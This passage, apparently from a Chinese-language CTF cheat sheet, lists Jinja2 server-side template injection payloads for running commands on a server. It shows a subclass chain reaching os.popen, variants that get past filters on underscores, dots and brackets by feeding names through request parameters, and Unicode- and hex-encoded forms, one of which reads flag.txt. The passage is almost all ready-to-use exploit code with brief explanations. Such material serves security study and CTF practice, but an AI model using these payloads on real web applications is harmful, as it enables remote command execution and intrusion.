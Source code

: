 ```python
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls').read()}}
```

### 同时过滤了 \_\_ 、点. 和 \[\]

`__getitem__`+`|attr()`+`request`

```python
{{()|attr(request.args.x1)|attr(request.args.x2)|attr(request.args.x3)()|attr(request.args.x4)(77)|attr(request.args.x5)|attr(request.args.x6)|attr(request.args.x4)(request.args.x7)|attr(request.args.x4)(request.args.x8)(request.args.x9)}}&x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('ls /').read()
```

相当于：

```python
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```

### 配合Unicode编码绕过很多过滤

```python
'  request  {{  _  %20(空格)  [  ]  .  __globals__   __getitem__
```

我们用 `{%...%}`绕过对 `{{` 的过滤，用`|attr()`绕过`.`，并用unicode绕过对关键字的过滤，然后`__getitem__`绕过中括号。

如下，后面的命令其实也可以换掉，但是没过滤，就先不换了：

```python
{{()|attr("\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f")|attr("\u005f\u005f\u0062\u0061\u0073\u0065\u005f\u005f")|attr("\u005f\u005f\u0073\u0075\u0062\u0063\u006c\u0061\u0073\u0073\u0065\u0073\u005f\u005f")()|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")(77)|attr("\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f")|attr("\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f")|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")("os")|attr("popen")("ls")|attr("read")()}}
```

等同于：

```python
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls').read()}}
```

### 配合Hex编码绕过很多过滤

和上面Unicode的环境一样，方法也一样，就是换了种编码

如下

```python
{{()|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")|attr("\x5f\x5f\x62\x61\x73\x65\x5f\x5f")|attr("\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f")()|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")(258)|attr("\x5f\x5f\x69\x6e\x69\x74\x5f\x5f")|attr("\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f")|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")("os")|attr("popen")("cat\x20\x66\x6c\x61\x67\x2e\x74\x78\x74")|attr("read")()}}
```
